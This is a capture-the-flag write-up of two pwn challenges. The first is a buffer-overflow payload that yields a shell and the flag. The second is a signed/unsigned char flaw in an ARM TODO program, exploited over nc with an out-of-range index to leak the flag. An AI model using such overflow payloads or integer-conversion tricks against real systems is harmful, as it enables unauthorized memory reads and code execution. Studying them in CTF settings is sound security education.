 ```
What is your name, fierce warrior? We will remember you forever, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x906F\x18\x00\x00
$ ls
dnd
flag
$ cat flag
dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}
$
```

All failed attempts to win result in an EOFError.

## pwn/charful

> // TODO: learn how integer conversions work

That is the description of the challenge, so White, my teammate and I looked into the source code as to where that vulnerable integer conversion might be, but there doesn't seem to be anything vulnerable in the source.

The flag is being read by the program though, so there has to be some way of performing negative indexing around the data that we can inspect with the function *print_todo()*. White, my teammate, found that the bounds checks for the index used in most, if not all, todo-related functions have removed the checks for whether the value less than zero.

According to the author, the `char` type is unsigned by default on ARM. While the Makefile suggests that the `-fsigned-char` flag is used, it only applies to the file *main.c*, but not *todos.c*.

Now, it's just a matter of finding the correct offset for the flag.

> White: I'll try just printing the flag for now, which is index -65
> Me: *tries -65*
> Me: *fails*
> White: 4294967231, try that

```
nc charful.chals.damctf.xyz 30128


1. Add a TODO
2. Print a TODO
3. Mark a TODO as completed
4. Edit a TODO
5. Check for incomplete TODOs
6. Exit
What would you like to do? 4294967231
Invalid choice.


7. Add a TODO
8. Print a TODO
9. Mark a TODO as completed
10. Edit a TODO
11. Check for incomplete TODOs
12. Exit
What would you like to do? 2
Which TODO would you like to print? 4294967231
// TODO: e over that way -------------> dam{dont_you_love_to_play_with_fun_signed_chars} (done!)
```
